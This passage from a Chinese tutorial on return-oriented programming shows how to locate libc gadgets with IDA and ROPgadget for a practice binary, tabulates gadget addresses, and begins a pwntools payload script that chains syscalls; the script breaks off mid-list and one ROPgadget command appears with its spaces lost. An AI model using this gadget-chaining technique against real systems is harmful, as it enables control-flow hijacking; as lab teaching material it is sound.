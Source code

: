第一种是手动搜索：利用 IDA 反汇编来确定使用的 gadget 在库中的地址。确定库文件之后用 IDA 打开，反汇编 libc.so.6，切换到 Hex View-A 视图，根据 gadget 机器码查找相应的 gadget 地址。以 `pop eax; ret;` 为例：

1. `ldd ./rop_test` 查询使用的 libc 库名为 libc.so.6；
2. 拷贝到主机，用 IDA Pro 打开；
3. 查询汇编指令对应的机器码为 58c3；
4. 进入 16 进制视图，查询对应字节码地址。

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1718900848578-e7786a38-cff6-48b1-9176-13bf2b036845.png#averageHue=%23282725&clientId=ue85ca0cd-9a1e-4&from=paste&height=118&id=u7d15303e&originHeight=118&originWidth=579&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17188&status=done&style=none&taskId=u58a0a665-83c8-4acc-b19b-4898f94fade&title=&width=579)
可以发现对应的地址为 0x000b5aa5。
第二种方法是利用 ROPgadget 工具，指定库文件 libc.so.6 ，查询机器码 58c3：
`ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --opcode 58c3`
得到全部结果：
![屏幕截图 2024-06-21 002912.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1718900999539-f3270360-fc12-4dce-a8ed-91750beacee3.png#averageHue=%23566775&clientId=ue85ca0cd-9a1e-4&from=ui&id=u773f75a3&originHeight=152&originWidth=628&originalType=binary&ratio=1&rotation=0&showTitle=false&size=74551&status=done&style=none&taskId=u94c240f9-0b6b-4275-949a-3e6e935be62&title=)
可以发现，两种方法都可以找到 0x000b5aa5 的指令。相对而言，手动查找比较麻烦，需要熟练使用 ROPgadget。
我们把所有需要用到的指令都找出来：
`ROPgadget--binaryrop--only'pop|ret'|grep'eax'`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1718988441288-5733591f-f541-4cdd-b144-7bca941626dc.png#averageHue=%2355573d&clientId=ub7e603b2-4361-4&from=paste&height=159&id=u59f8854f&originHeight=239&originWidth=1106&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=317000&status=done&style=none&taskId=ue3ba30ad-80b8-456f-91d9-dddfbf25854&title=&width=737.3333333333334)

| 汇编 | 机器码 | 相对库内地址 |
| --- | --- | --- |
| pop eax; ret; | 58c3 | 0x0002ed92 |
| pop ebx; ret; | 5bc3 | 0x0002c01f |

![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1718985676181-295cbe2b-4370-4864-896c-3704c5457653.png#averageHue=%2383868f&clientId=ub7e603b2-4361-4&from=paste&height=84&id=u842c0f9e&originHeight=126&originWidth=1051&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=86241&status=done&style=none&taskId=uff517f60-e03a-4d46-bdf3-33194ec00db&title=&width=700.6666666666666)
注意，libc 库中并不存在 `int 0x80; ret;` 指令。我们在可执行文件中找到了代替的 gadget。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719048290823-303a600b-8a27-439b-b8d1-4a982f25bee9.png#averageHue=%2385868e&clientId=u1097f039-8b00-4&from=paste&height=287&id=u77368ed9&originHeight=431&originWidth=1102&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=231127&status=done&style=none&taskId=u4de98b59-1067-40cd-851e-4747c9dfc3f&title=&width=734.6666666666666)
定位在 0x08048623，但是也带来了副作用，需要额外的填充数据来保持堆栈平衡。
但是可执行文件找到不到 data 字符串，我们可以在 libc 中找到。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719050106394-52d64480-4d8a-4209-9d8b-e9954492fd0f.png#averageHue=%237d7e86&clientId=u1097f039-8b00-4&from=paste&height=348&id=u1a99bd6e&originHeight=522&originWidth=1099&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=347934&status=done&style=none&taskId=ua18c3c74-8e1f-4a92-8413-7af2c088628&title=&width=732.6666666666666)
### payload 构造
综上，我们可以根据所有获得的信息开始构造 payload 了。
```python
from pwn import *
import struct 
buf_addr = 0xffffbbbc
ebp_addr = 0xffffbc28
libc_addr = 0xf7c00000

pop_eax = 0x0002ed92
pop_ebx = 0x0002c01f
data_addr = 0x00012a97

int_addr = 0x08048623 # int 0x80; pop eax; ret;

offset = ebp_addr - buf_addr + 0x4

stack_values = [
    libc_addr + pop_eax,
    0xa,
    libc_addr + pop_ebx,
    libc_addr + data_addr,
    0xffffffff, # padding
    int_addr,

    libc_addr + pop_eax,
    0x1,
    libc_addr + pop_ebx,
    0x1,
    0xffffffff,
```